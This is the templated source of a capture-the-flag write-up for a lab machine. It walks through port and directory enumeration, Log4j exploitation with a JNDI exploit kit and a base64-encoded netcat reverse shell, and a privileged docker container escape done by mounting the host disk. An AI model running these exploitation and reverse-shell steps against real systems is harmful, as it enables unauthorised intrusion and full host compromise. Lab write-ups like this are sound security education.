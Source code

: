{% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.189.144", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 02:32 CET
Nmap scan report for 10.10.189.144
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 53.70 seconds")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Let's visit the web page.")}}

{{image("../../static/writeups/lumberjackturtle/images/000001.jpg")}}

{{text("Not a very interesting page. Since it tells us to 'look deeper', we proceed with directory enumerating.")}}

{{console("gobuster dir -u http://10.10.189.144 -w /usr/share/wordlists/dirb/big.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.189.144
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/error                (Status: 500) [Size: 73]
/plain]               (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
/~logs                (Status: 200) [Size: 29]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================")}}

{{text("We visit the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/~logs</code> directory.")}}

{{image("../../static/writeups/lumberjackturtle/images/000002.jpg")}}

{{text("Seems like we still need to go deeper.")}}

{{console("gobuster dir -u http://10.10.189.144/~logs/ -w /usr/share/wordlists/dirb/big.txt", "...
/[                    (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/log4j                (Status: 200) [Size: 47]
/plain]               (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
...")}}

{{text("We continue to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/~logs/log4j</code>.")}}

{{image("../../static/writeups/lumberjackturtle/images/000003.jpg")}}

{{header("Shell as root?", "shell-as-root")}}

{{text("This page is probably vulnerable to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>log4j</code> attack.")}}

{{text("While searching for a payload to test this, I came across this article.")}}

{{link("https://raxis.com/blog/log4j-exploit/", "https://raxis.com/wp-content/uploads/2024/02/favicon.png", "Log4j: How to Exploit and Test this Critical Vulnerability")}}

{{text("I caught a request with Burp and used the payload from the article to check if it would work.")}}

{{image("../../static/writeups/lumberjackturtle/images/000004.jpg")}}

{{text("It worked successfully, now we need to get a reverse shell.")}}

{{text("More searching and I came across this GitHub page.")}}

{{link("https://github.com/pimps/JNDI-Exploit-Kit", "./../static/writeups/images/github.jpg", "JNDI-Exploit-Kit")}}

{{text("We download the compiled version onto our machine.")}}

{{text("We visit <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and generate a base64 encoded <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc mkfifo</code> reverse shell.")}}

{{text("We run the exploit.")}}

{{console("java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 'VICTIM_IP:138' -C 'echo YOUR_SHELL | base64 -d | bash'")}}

{{text("Now we set up a listener on the port we specified in the reverse shell and send a request with Burp.")}}

{{image("../../static/writeups/lumberjackturtle/images/000005.jpg")}}

{{text("Be make sure the 'oirpyq' string is set to whatever string it is in the JDK 1.7 build in the exploit.")}}

{{text("We should get a connection.")}}

{{image("../../static/writeups/lumberjackturtle/images/000006.jpg")}}

{{header("Flag", "flag")}}

{{text("After running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linpeas</code> we learn that we are in a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>docker</code> container.")}}

{{text("We also learn that privilage mode in enabled, giving us all capabilities to the container.")}}

{{text("Let's check for any drives present.")}}

{{console("fdisk -l", "Disk /dev/xvdf: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
                                                                                                                                                                        
                                                                                                                                                                        
Disk /dev/xvda: 40 GiB, 42949672960 bytes, 83886080 sectors                                                                                                             
Units: sectors of 1 * 512 = 512 bytes                                                                                                                                   
Sector size (logical/physical): 512 bytes / 512 bytes                                                                                                                   
I/O size (minimum/optimal): 512 bytes / 512 bytes                                                                                                                       
Disklabel type: dos                                                                                                                                                     
Disk identifier: 0x3650a2cc

Device     Boot Start      End  Sectors Size Id Type
/dev/xvda1 *     2048 83886046 83883999  40G 83 Linux")}}

{{text("There is a disk at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/dev/xvda1</code>.")}}

{{text("I created a folder in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp</code> directory and mounted the disk there.")}}

{{console("mount /dev/xvda1 /tmp/disk")}}

{{text("We look through the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp/disk/root</code> directory and find a fake flag file. Not fun.")}}

{{text("Fortunately, the real flag wasn't far as there was a folder named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>...</code> which contained the thing we were looking for.")}}

{{image("../../static/writeups/lumberjackturtle/images/000007.jpg")}}

{{script()}}




